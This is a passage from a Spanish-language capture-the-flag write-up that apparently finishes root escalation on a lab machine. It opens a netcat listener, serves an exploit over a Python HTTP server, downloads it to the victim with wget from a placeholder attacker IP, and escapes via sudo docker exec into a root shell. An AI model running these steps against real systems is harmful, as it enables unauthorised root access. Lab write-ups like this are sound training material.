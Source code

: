   >make  

  Pondremos una shell de netcat a la escucha:  
  >nc -nlvp 4555  

  Y listo corremos un servidor de python en nuestra maquina para descargar el exploit en la maquina victima.  

  >python3 -m http.server  


![](https://raw.githubusercontent.com/Sharker3312/Images/what_OS/TBN_11.jpg)

 Con el binario wget nos lo descargamos y otorgamos permisos de ejecucion:   

> wget -r http://your_ip:8000/exploit

> **Nota:** Para que el exploit nos funcione antes de ejecutar el `pwn.sh` 	abra una segundo  terminal y conectece    nuevamente por ssh al usario **noah**  


![](https://raw.githubusercontent.com/Sharker3312/Images/what_OS/TBN_12.jpg)

Inmediatamente despues de haber ejecutado el exploit vaya a la   
terminal abierta recientemente y ejecute:     

![](https://raw.githubusercontent.com/Sharker3312/Images/what_OS/TBN_13.jpg)

>sudo /usr/bin/docker exec  -it webapp-dev01 /bin/sh  


We are **Root** 

Flag root.txt **=** `cat root/root.txt` 


![](https://raw.githubusercontent.com/Sharker3312/Images/what_OS/TBN_14.jpg)



- [x] ***Happy Hacking!*** 
